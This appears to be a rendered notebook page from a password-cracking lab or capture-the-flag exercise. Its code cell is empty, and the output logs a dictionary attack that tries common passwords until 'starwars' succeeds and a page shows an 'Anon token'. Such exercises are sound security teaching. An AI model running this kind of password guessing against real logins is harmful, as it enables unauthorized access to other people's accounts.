 ```python
```

    Trying with password:  123456
    Trying with password:  12345
    Trying with password:  1234
    Trying with password:  1234567
    Trying with password:  dragon
    Trying with password:  baseball
    Trying with password:  abc123
    Trying with password:  letmein
    Trying with password:  696969
    Trying with password:  shadow
    Trying with password:  michael
    Trying with password:  654321
    Trying with password:  password
    Trying with password:  superman
    Trying with password:  password1
    Trying with password:  Password1
    Trying with password:  admin
    Trying with password:  1qaz2wsx
    Trying with password:  7777777
    Trying with password:  121212
    Trying with password:  000000
    Trying with password:  qazwsx
    Trying with password:  123qwe
    Trying with password:  killer
    Trying with password:  trustno1
    Trying with password:  jordan
    Trying with password:  jennifer
    Trying with password:  zxcvbnm
    Trying with password:  asdfgh
    Trying with password:  hunter
    Trying with password:  buster
    Trying with password:  soccer
    Trying with password:  harley
    Trying with password:  batman
    Trying with password:  andrew
    Trying with password:  tigger
    Trying with password:  sunshine
    Trying with password:  iloveyou
    Trying with password:  2000
    Trying with password:  charlie
    Trying with password:  robert
    Trying with password:  thomas
    Trying with password:  hockey
    Trying with password:  ranger
    Trying with password:  daniel
    Trying with password:  starwars
    Login successful with password:  starwars
    <!DOCTYPE html>
    <html>
     <body>
      <h1>
       Anon token: 1aae4f5eb740067d22088604cd0dc189
      </h1>
     </body>
    </html>
    

